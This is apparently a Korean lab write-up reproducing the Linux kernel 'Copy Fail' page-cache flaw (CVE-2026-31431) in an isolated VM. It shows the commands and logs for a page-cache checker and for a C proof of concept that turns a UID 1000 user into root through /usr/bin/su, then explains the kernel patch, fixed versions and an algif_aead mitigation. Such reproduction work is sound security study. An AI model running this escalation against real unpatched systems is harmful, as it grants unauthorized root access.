

### 5.6 검증기 실행

첫 단계에서는 `tgies/copy-fail-c`의 비파괴적 `vulnerable.c`를 이용해 Page Cache 변조 여부를 먼저 검증했다. 이후에는 같은 저장소의 C 구현 `exploit`을 별도로 실행해 root 권한 상승 결과를 확인했다(5.8절).

```bash
cd ~/CVE-2026-31431/repro/copy-fail-c
wc -c vulnerable.c vulnerable
file vulnerable
uname -r
./vulnerable
result=$?
echo "Checker exit code: $result"
```

최초에는 다운로드가 디스크 부족 등의 여파로 손상되어 `vulnerable.c`와 실행 파일이 0바이트였고, 잘못된 `exit code 0`을 한 번 관찰했다. 이는 **유효한 검증 결과가 아니므로 폐기**했다. 저장소를 정상적으로 다시 확보해 검증기 소스 4,310바이트, 실행 파일 829,864바이트의 정적 링크 ELF임을 확인했다. 이후 모듈이 미로드 상태일 때는 `exit code 2`가 나왔고, AEAD 사용이 가능해진 뒤 실제 검증을 수행했다.

**최종 실측 로그 요약:**

```
content of testfile fd=3 ---
init
---
[+] target:  testfile
[+] payload: 10 bytes (3 iterations)
[+] patch fd=3 off=0 bytes="vuln"
[+] patch ok
[+] patch fd=3 off=4 bytes="erab"
[+] patch ok
[+] patch fd=3 off=8 bytes="le"
[+] patch ok
[+] page cache mutated
content of testfile fd=3 ---
vulnerable
---
[!] VULNERABLE
Checker exit code: 100
```

위 로그에서 **4바이트 단위로 세 번 처리**해 길이 10바이트의 결과를 만들었음을 볼 수 있다. 같은 테스트 파일에서 처음에는 `init`, 나중에는 `vulnerable`이 읽혔다. 이 결과는 **실제 커널의 Page Cache 변조 재현 성공**을 뒷받침한다.



### 5.7 공격 전 권한

```
uid=1000(cve) gid=1000(cve)
id -u  → 1000
id -ru → 1000
/usr/bin/su: -rwsr-xr-x, 4755, root:root
```

`/usr/bin/su`는 root 소유 SetUID 바이너리라는 점을 확인했다. 이 시점에는 실제·유효 UID가 모두 1000이었으며, **이 값이 이후 권한 상승 실험의 시작 상태**다. 이후 C PoC 실행으로 root 권한을 획득한 결과는 5.8절에서 구분해 제시한다.



### 5.8 root 권한 상승

앞서 일반 사용자 계정 `cve`(UID 1000)와 root 소유 SetUID 프로그램 `/usr/bin/su`(권한 `4755`)를 확인한 다음, **tgies/copy-fail-c의 C 언어 PoC에서 빌드한 `exploit`**을 실행했다. 이는 원본 Theori Python 파일(`copy_fail_exp.py`)과 별개의 구현이다.

**실제로 관찰한 실행 출력**

```
cve@cve-VMware-Virtual-Platform:~/CVE-2026-31431/repro/copy-fail-c$ ./exploit
[+] target:    /usr/bin/su
[+] command:   sh -c 'su'
[+] payload:   720 bytes (180 iterations)
[+] page cache mutated; exec'ing target
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),1000(cve)
# id -u
0
# id -ru
0
#
```

| 증거 | 해석 |
| --- | --- |
| `target: /usr/bin/su` | root 소유 SetUID 바이너리를 대상으로 지정 |
| `payload: 720 bytes (180 iterations)` | 720바이트 데이터에 대해 4바이트 단위 180회의 처리 계획 표시 |
| `page cache mutated; exec'ing target` | PoC가 캐시 변조 단계를 완료했다고 보고하고 대상 실행 단계로 진입 |
| `id → uid=0(root) gid=0(root)` | 실제로 실행된 셸에서 root 사용자 및 그룹 권한 확인 |
| `id -u → 0` | 유효 UID가 0 |
| `id -ru → 0` | 실제 UID도 0 |

**판정:** 공격 전에는 UID/EUID 1000이었고, C PoC 실행 후 셸에서 UID/EUID 0을 직접 확인했다. 따라서 **격리된 VMware 실습 환경에서 CVE-2026-31431을 이용한 로컬 root 권한 상승(LPE) 직접 재현 성공**으로 기록한다. 단, 변조된 캐시와 디스크 원본의 영구적 일치 여부, 다른 환경에 대한 재현성 및 수정 커널에서의 방어 효과는 별도 검증 대상이다.



쉘이 활성화된것을 확인했고 권한상승이 이루어진것을 확인했다.

## 6. 결과 및 한계

### 검증 결과

1. 수정 이전 코드가 포함된 Linux 6.18.21을 직접 빌드해 VM에서 부팅했다.
2. 커널 AEAD 인터페이스가 접근 가능한 상태에서 비파괴적 검증기가 실제 파일 캐시 변경을 관찰했다.
3. `vulnerable.c`는 `init → vulnerable`을 보고했고 종료 코드 `100`을 반환했다.
4. 일반 사용자 UID 1000에서 C PoC `exploit` 실행 후 root 셸이 나타났고, `id`에서 UID/GID 0 및 `id -u`, `id -ru` 모두 0을 확인했다.

### 미검증 사항

- 메모리상 변경이 모든 조건에서 디스크에 영구 기록되는지 여부(이 취약점의 핵심은 디스크 원본과 분리된 캐시 변조).
- **Theori 원본 Python PoC를 별도로 실행했을 때**의 성공 여부(본 실습은 C 포트 사용).
- 컨테이너 탈출.
- 동일 검증기의 6.18.22 수정 후 결과.

### 원인과 결과

`algif_aead`의 In-place 별칭 구조와 `authencesn`의 임시 4바이트 쓰기가 결합하면, 읽기 전용 파일의 캐시 페이지가 의도하지 않은 쓰기 대상이 될 수 있다. 공개된 기술 분석은 이를 이용한 SetUID 캐시 변조 → root LPE를 설명한다. 본 실습에서는 먼저 Page Cache 변조를 독립적으로 입증한 다음, C PoC를 실행하여 **일반 사용자에서 root 셸로 권한 상승하는 최종 결과까지** 관찰했다. 다만 시스템 파일의 디스크 원본에 영구 변경이 발생했는지는 별도 검증하지 않았다.

## 7. 패치 및 대응

### 7.1 패치 원리

Copy Fail의 근본 원인은 **입력 데이터를 읽기 위해 참조한 파일 Page Cache 페이지가 암호화 출력 SGL에도 포함되었다는 점**이다. 이를 해결하기 위해 Linux 커널은 `algif_aead`의 **In-place 처리 구조를 Out-of-place 방식으로 되돌렸다.**

**패치 전 (취약한 구조)**

```
입력 TX SGL ──▶ [AAD | 암호문 | 파일 Page Cache를 참조하는 인증 태그]
                      │               │
                      └────┬──────────┘
                           ▼
출력 RX SGL ──▶ [복사된 데이터 | 체인으로 연결된 태그 페이지]
                           │
                      src == dst
                           │
            authencesn이 dst에 임시 4바이트 기록
                           │
               파일 Page Cache 변경 가능
```

출력용 SGL의 앞부분은 별도 메모리이지만, 뒤쪽의 인증 태그 페이지는 입력에서 직접 참조하는 구조였다. 이 상황에서 `authencesn`이 출력을 임시 작업 공간처럼 사용하면 읽기 전용 파일의 캐시까지 수정될 수 있었다.

**패치 후 (수정된 구조)**

```
입력 TX SGL (src) ──▶ [AAD | 암호문 | 인증 태그]
                          │    읽기 전용 입력
                          │
                     데이터 처리
                          │
                          ▼
출력 RX SGL (dst) ──▶ [별도의 쓰기 가능한 출력 버퍼]
```

수정된 코드에서는 **입력과 출력 SGL을 별도로 관리**하고, 인증 연관 데이터(AAD)는 출력 버퍼로 직접 복사한다. 따라서 `authencesn`이 출력 버퍼를 수정하더라도 입력에 연결된 파일 Page Cache 페이지가 쓰기 대상에 포함되는 기존 문제가 해소된다.

핵심은 `authencesn`의 4바이트 쓰기를 단순히 제거한 것이 아니라, **그 쓰기가 읽기 전용 파일 페이지에 도달하지 않도록 입력과 출력의 메모리 참조를 분리한 것**이다.

### 7.2 패치 전후 비교

| 비교 항목 | 패치 전 | 패치 후 |
| --- | --- | --- |
| 암호화 처리 방식 | In-place | Out-of-place |
| `src` / `dst` | 같은 SGL을 공유할 수 있음 | 별도의 입력/출력 SGL 사용 |
| 인증 연관 데이터(AAD) | In-place 처리를 위한 복잡한 연결·복사 로직 | 출력 버퍼로 직접 복사 |
| 파일 Page Cache 참조 | 출력 SGL에 포함될 가능성 있음 | 입력 측의 파일 페이지가 출력 쓰기 공간으로 사용되지 않음 |
| 보안상 차이 | `authencesn`의 임시 쓰기가 파일 캐시에 닿을 수 있음 | 해당 비정상 쓰기 경로 차단 |

이 수정은 2017년에 In-place 최적화를 도입한 커밋 `72548b093ee3`의 주요 변경을 되돌리는 방식으로 이루어졌다. 다만 AAD 복사 처리까지 그대로 과거 코드로 복귀한 것은 아니며, 해당 부분은 별도의 직접 복사 방식으로 유지되었다.

### 7.3 수정 버전

| 커널 계열 | 취약한 실습 버전 또는 수정 직전 | 수정이 반영된 버전 | 수정 커밋 |
| --- | --- | --- | --- |
| Linux 6.18 | **6.18.21 (본 실습)** | **6.18.22** | `fafe0fa2995a` |
| Linux 6.19 | 6.19.11 | 6.19.12 | `ce42ee423e58` |
| Linux 7.0 | 이전 개발 버전에 취약 코드 존재 | 7.0 | `a664bf3d603d` |

위 버전은 Linux 커널 보안 공지에 명시된 해당 계열의 수정 지점이다. 배포판에서 보안 수정 사항을 백포트할 수 있으므로, **실제 시스템의 취약 여부는 버전 번호만으로 단정하지 않고 배포판 보안 공지를 함께 확인**해야 한다.

관련 코드: [6.18 계열 수정 커밋](https://git.kernel.org/stable/c/fafe0fa2995a0f7073c1c358d7d3145bcc9aedd8) · [메인라인 수정 커밋](https://git.kernel.org/stable/c/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5)

### 7.4 임시 완화 조치

취약 커널을 바로 교체할 수 없다면 `algif_aead` 모듈을 통한 취약한 암호화 경로의 사용을 제한하는 방법이 있다. 이것은 **근본적인 코드 수정이 아니라 임시 완화 조치**다.

이번 실습에서 최초 Ubuntu 환경의 `/etc/modprobe.d/disable-algif_aead.conf`에서 확인한 설정은 다음과 같다.

```
install algif_aead /bin/false
```

이 설정의 의미는 일반적인 `modprobe algif_aead` 요청이 발생했을 때 실제 모듈을 로드하는 대신 `/bin/false`를 실행하여 로드를 실패시키는 것이다. 당시 실습에서 암호화 알고리즘에 접근할 수 없었던 이유와도 연결된다.

주의할 점은 다음과 같다.

- **이미 로드된 모듈**에는 이 설정만 추가했다고 곧바로 차단 효과가 생기는 것은 아니다.
- **커널에 기능이 내장(built-in)**되어 있으면 모듈 로드 정책만으로 해당 기능을 차단할 수 없다.
- 해당 기능을 사용하는 정상 애플리케이션의 암호화 작업에도 영향을 줄 수 있다.

따라서 운영 환경에서는 기능 의존성과 실제 모듈 상태를 확인하고, 가능한 경우 **배포판이 제공하는 수정 커널 패키지를 설치한 뒤 재부팅**하는 것이 우선이다.

### 7.5 대응 효과 확인

이 취약점에 대한 검증은 **'기능 접근 차단'과 '취약 코드 수정'**을 구분해야 한다.

| 확인 결과 | 의미 |
| --- | --- |
| AF_ALG 알고리즘 바인딩 불가 | 취약 경로에 접근하지 못하는 상태일 수 있음. 코드가 수정되었다는 증거는 아님 |
| 커널 보안 패키지에 해당 수정 커밋 포함 | 공급자가 취약 코드에 대한 수정을 반영했다는 근거 |
| 수정 커널로 부팅한 사실 확인 | 설치만 한 것이 아니라 실제 수정 커널이 실행되고 있다는 근거 |
| 동일한 비파괴적 검증기에서 캐시 변조 미발생 | 실험 조건을 일치시킨 경우 패치 효과를 뒷받침하는 관찰 결과 |

**본 실습에서 확인한 범위:** Linux 6.18.21에서 Page Cache 변조와 root 권한 상승에 성공했으며, 초기 Ubuntu 환경의 `install algif_aead /bin/false` 차단 정책도 확인했다. **수정 커널 6.18.22의 직접 실행 결과를 확인한 것으로 기록하지 않는다.**

**결론:** Copy Fail의 근본 대응은 `algif_aead`가 읽기용 파일 Page Cache를 출력 SGL의 쓰기 대상으로 사용하지 못하게 **입력·출력 메모리 구조를 분리하는 것**이다. 모듈 차단은 취약점 자체를 제거하지 않는 임시 대응이므로, 실제 운영 시스템은 수정된 커널로 업데이트해야 한다.

**근거:** [Linux 커널 CVE 공식 공지](https://lists.openwall.net/linux-cve-announce/2026/04/22/2) · [Ubuntu 보안 대응 안내](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available) · [Debian CVE 추적](https://security-tracker.debian.org/tracker/CVE-2026-31431)

## 8. 느낀점

이런 소켓을 통해 참조된 파일의 Page Cache가 변조되는 것을 사용해서 위변조하는 취약점은 처음 접해서 전반적으로 생소하게 느껴졌다. Page Cache가 단순히 파일을 빠르게 읽기 위한 임시 저장 공간이 아니라 실제 프로그램 실행에도 영향을 미칠 수 있다는 점을 알게 되었다. 파일의 메타데이터와 디스크원본을 변조 하지 않고 Page Cache에 저장된 실행 파일만 변조하여 공격을 수행하는 점이 인상깊었다. 또한 재현을 위한 환경 구성에서 커널 빌드 과정과 Linux 환경 구성에 대해서도 알아볼 수 있었다. 

## 9. 참고 자료

- [Theori/Xint 원 공개 프로젝트 및 기술 설명](https://copy.fail/)
- [Theori — 페이지 캐시를 중심으로 한 Copy Fail 설명](https://theori.io/ko/blog/copy-fail-page-cache)
- [원본 Python PoC 저장소](https://github.com/theori-io/copy-fail-CVE-2026-31431)
- [C 언어 검증기 및 구현 설명](https://github.com/tgies/copy-fail-c)
- [Linux 커널 CVE 공지 및 6.18.22 수정 버전](https://lists.openwall.net/linux-cve-announce/2026/04/22/2)
- [Ubuntu 보안 공지](https://ubuntu.com/security/CVE-2026-31431)
- [Ubuntu의 수정 및 임시 완화 설명](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available)
- [CERT-EU 보안 권고](https://www.cert.europa.eu/publications/security-advisories/2026-005/)

**실습 자료 보관:** `~/CVE-2026-31431/` 아래에 패치 파일, 소스 비교 파일, `evidence/kernel_baseline.txt`, `repro/copy-fail-c`, 압축 백업 `cve-analysis-evidence.tar.gz` 등을 생성했다. 이들은 VM 내부에 저장된 파일이며 Notion에 자동 첨부된 것은 아니다.

---

## 부록 A. 참고 캡처

중복된 코드 출력·시스템 정보·실패 로그·설치 과정 등의 원본 자료다. 핵심적인 사실과 명령어는 이미 본문에 정리했으며, 아래 이미지는 추가 추적을 위해 삭제하지 않고 모아 두었다. 사진은 원래 첨부 순서에 따라 보관한다.

















